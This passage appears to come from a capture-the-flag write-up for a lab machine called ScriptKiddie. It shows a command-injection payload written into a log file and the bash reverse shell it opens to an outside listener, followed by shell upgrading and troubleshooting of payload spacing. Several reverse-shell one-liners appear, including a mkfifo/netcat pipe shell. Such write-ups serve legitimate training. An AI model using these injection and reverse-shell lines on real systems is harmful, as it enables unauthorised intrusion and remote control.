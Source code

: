 I’ll write this payload with a reverse shell to the logs:

    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # ."  > hackers
    

Immediately at there’s a connection:`nc`

    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52532
    bash: cannot set terminal process group (873): Inappropriate ioctl for device
    bash: no job control in this shell
    pwn@scriptkiddie:~$
    

Same shell upgrade for command history:

    pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pwn@scriptkiddie:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pwn@scriptkiddie:~$ 
    

#### Common Issues

A lot of people I saw getting stuck on this step didn’t take into account the , or read it incorrectly. If you tried to just pass a reverse shell in without some spacing, then it would lead to weird results. For example, if you tried to pass:`cut`

    ; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #
    

That would create:

    nmap --top-ports 10 -oN recon/-c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #.nmap -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # 2>&1 >/dev/null
    

That’s going to try to scan , which is not going to resolve.`'/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'`

On the other hand, the Bash pipe shell will have some weird results:

    ; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #
    

Passing that into gives a result:`cut`

    oxdf@parrot$ echo '; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #' | cut -d' ' -f3-
    /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #
    

That will inject into the command to be:
